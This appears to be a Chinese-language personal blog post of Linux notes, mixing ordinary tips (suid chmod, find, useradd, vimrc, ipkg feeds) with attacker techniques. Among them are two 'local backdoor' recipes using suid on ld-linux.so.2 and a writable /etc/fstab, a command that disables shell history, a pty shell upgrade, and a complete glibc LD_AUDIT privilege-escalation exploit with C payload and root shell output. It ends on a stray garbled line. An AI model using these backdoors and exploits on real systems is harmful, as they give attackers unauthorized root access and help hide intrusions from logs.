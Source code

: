 ```yaml
---
layout: post
title: "Linux基础汇总"
---
```


## Linux基础汇总


* suid/guid

	suid意味着如果A用户对属于他自己的shell脚本文件设置了这种权限，那么其他用户在执行这个脚本的时候就拥有了A用户的权限。所以，如果 root用户对某一脚本设置了这一权限的话则其他用户执行该脚本的时候则拥有了root用户权限。同理，guid意味着执行相应脚本的用户则拥有了该文件所属用户组中用户的权限。

	给文件加suid和sgid的命令如下：

	    chmod u+s filename 设置suid位
	    chmod u-s filename 去掉suid设置
	    chmod g+s filename 设置sgid位
	    chmod g-s filename 去掉sgid设置

* find / -type f -perm /u+s -ls

	-perm #按执行权限来查找

	-type b/d/c/p/l/f #查是块设备、目录、字符设备、管道、符号链接、普通文件

* Linux kernel 2.6 < 2.6.19 (32bit) ip_append_data() local ring0 root exploit

	[http://www.lengmo.net/post/1380]

* 本地后门2法 xi4oyu

	1.
	
	    cd /lib
	    chmod +s ld-linux.so.2
	    /lib/ld-linux.so.2 `which whoami`

	2.
	
	    chmod a+w /etc/fstab
	    echo 'test /mnt ext2 user,suid,exec,loop 0 0' >> /etc/fstab
	    chown root.root setuid
	    chmod u+s setuid
	    mount test
	    cd /mnt

* ssh的history处理 & 日至相关

	    export HISTFILE=/dev/null

	ssh日志默认保存在 /var/log/secure文件里
	
* python -c 'import pty; pty.spawn("/bin/sh")'

* 基础操作

	增加一个用户
	useradd application
	passwd // 根据提示设置密码
	
* exp

	    $ mkdir /tmp/exploit
	    $ ln /bin/ping /tmp/exploit/target
	    $ exec 3< /tmp/exploit/target
	    $ ls -l /proc/$$/fd/3
	    $ rm -rf /tmp/exploit/
	    $ cat > payload.c
	    void __attribute__((constructor)) init()
	    {
	        setuid(0);
	        system("/bin/bash");
	    }
	    ^D
	    $ gcc -w -fPIC -shared -o /tmp/exploit payload.c
	    $ ls -l /tmp/exploit
	    $ LD_AUDIT="\$ORIGIN" exec /proc/self/fd/3
	    sh-4.1# whoami
	    root
	    sh-4.1# id
	    uid=0(root) gid=500(taviso)

* 自己建立ipkg feed服务器

	[http://www.oesf.org/index.php?title=Setting_Up_A_Feed ipkg-make-index.sh]
	
	[http://buffalo.nas-central.org/wiki/Construct_ipkg_packages_(for_developers)]
	
	gzip -9c Packages > Packages.gz


* 连接godaddy的ftp需要用passive模式。ftp之后，运行passive

* C库（glibc）  

	glibc是个C库，几乎所有的应用程序都需要共享它提供的功能（除了kernel、bootload、和其它完全不用C库的功能代码），因此glibc的存在有利益小系统或嵌入系统缩减系统总代码尺寸与存放空间（尽管单个的glibc库是比较大的）。所以，最后的工作就是：构造ARM交叉编译系统的glibc库。

* 安装语言包  
	sudo apt-get install language-support-zh

* .vimrc编写指南  
	set nocp #该命令指定让 VIM 工作在不兼容模式下  
	set ru #该命令打开 VIM 的状态栏标尺。  
	set hls #搜索时高亮显示被找到的文本。  
	syntax on #打开关键字上色。  
	set backspace=indent,eol,start #字母删除问题  
	set whichwrap=b,s,<,>,[,] #光标跳转  

* djsljfs






